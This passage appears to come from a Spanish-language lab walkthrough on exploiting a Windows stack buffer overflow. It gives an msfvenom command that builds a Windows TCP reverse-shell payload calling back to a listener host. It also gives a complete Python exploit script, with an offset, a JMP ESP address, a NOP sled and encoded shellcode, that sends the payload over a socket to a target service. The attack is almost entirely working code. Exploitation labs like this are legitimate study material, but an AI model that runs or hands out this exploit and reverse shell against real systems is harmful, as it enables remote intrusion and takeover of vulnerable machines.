 >Ahora, vamos a generar el shellcode que vamos a ejecutar en la pila al realizar el Buffer Overflow, yo emplearé una reverse shell de windows por TCP:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.42 LPORT=443 -f py -v shellcode -b "\x00\x0a\x0d"
```

![Pasted image 20240821233000](https://github.com/user-attachments/assets/9abafe06-a39a-4ac5-9817-04d01386ad74)


>Para llevar a cabo la explotación, deberemos crear un script en python como el siguiente:

```python
#!/usr/bin/python3

import socket

offset = 524
before_eip = b"A" * offset

eip = b"\xf3\x12\x17\x31" # <--- 0x311712f3 - JMP ESP

shellcode =  b""
shellcode += b"\xdb\xdf\xd9\x74\x24\xf4\x5a\xbb\x1a\x94\x0e"
shellcode += b"\xa9\x33\xc9\xb1\x52\x31\x5a\x17\x83\xc2\x04"
shellcode += b"\x03\x40\x87\xec\x5c\x88\x4f\x72\x9e\x70\x90"
shellcode += b"\x13\x16\x95\xa1\x13\x4c\xde\x92\xa3\x06\xb2"
shellcode += b"\x1e\x4f\x4a\x26\x94\x3d\x43\x49\x1d\x8b\xb5"
shellcode += b"\x64\x9e\xa0\x86\xe7\x1c\xbb\xda\xc7\x1d\x74"
shellcode += b"\x2f\x06\x59\x69\xc2\x5a\x32\xe5\x71\x4a\x37"
shellcode += b"\xb3\x49\xe1\x0b\x55\xca\x16\xdb\x54\xfb\x89"
shellcode += b"\x57\x0f\xdb\x28\xbb\x3b\x52\x32\xd8\x06\x2c"
shellcode += b"\xc9\x2a\xfc\xaf\x1b\x63\xfd\x1c\x62\x4b\x0c"
shellcode += b"\x5c\xa3\x6c\xef\x2b\xdd\x8e\x92\x2b\x1a\xec"
shellcode += b"\x48\xb9\xb8\x56\x1a\x19\x64\x66\xcf\xfc\xef"
shellcode += b"\x64\xa4\x8b\xb7\x68\x3b\x5f\xcc\x95\xb0\x5e"
shellcode += b"\x02\x1c\x82\x44\x86\x44\x50\xe4\x9f\x20\x37"
shellcode += b"\x19\xff\x8a\xe8\xbf\x74\x26\xfc\xcd\xd7\x2f"
shellcode += b"\x31\xfc\xe7\xaf\x5d\x77\x94\x9d\xc2\x23\x32"
shellcode += b"\xae\x8b\xed\xc5\xd1\xa1\x4a\x59\x2c\x4a\xab"
shellcode += b"\x70\xeb\x1e\xfb\xea\xda\x1e\x90\xea\xe3\xca"
shellcode += b"\x37\xba\x4b\xa5\xf7\x6a\x2c\x15\x90\x60\xa3"
shellcode += b"\x4a\x80\x8b\x69\xe3\x2b\x76\xfa\xcc\x04\x79"
shellcode += b"\xd0\xa4\x56\x79\x25\x8e\xde\x9f\x4f\xe0\xb6"
shellcode += b"\x08\xf8\x99\x92\xc2\x99\x66\x09\xaf\x9a\xed"
shellcode += b"\xbe\x50\x54\x06\xca\x42\x01\xe6\x81\x38\x84"
shellcode += b"\xf9\x3f\x54\x4a\x6b\xa4\xa4\x05\x90\x73\xf3"
shellcode += b"\x42\x66\x8a\x91\x7e\xd1\x24\x87\x82\x87\x0f"
shellcode += b"\x03\x59\x74\x91\x8a\x2c\xc0\xb5\x9c\xe8\xc9"
shellcode += b"\xf1\xc8\xa4\x9f\xaf\xa6\x02\x76\x1e\x10\xdd"
shellcode += b"\x25\xc8\xf4\x98\x05\xcb\x82\xa4\x43\xbd\x6a"
shellcode += b"\x14\x3a\xf8\x95\x99\xaa\x0c\xee\xc7\x4a\xf2"
shellcode += b"\x25\x4c\x7a\xb9\x67\xe5\x13\x64\xf2\xb7\x79"
shellcode += b"\x97\x29\xfb\x87\x14\xdb\x84\x73\x04\xae\x81"
shellcode += b"\x38\x82\x43\xf8\x51\x67\x63\xaf\x52\xa2"

after_eip = b"\x90"*32 + shellcode # ESP empleando 32 NOPs

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.38", 9999))
s.send(payload)
s.close
```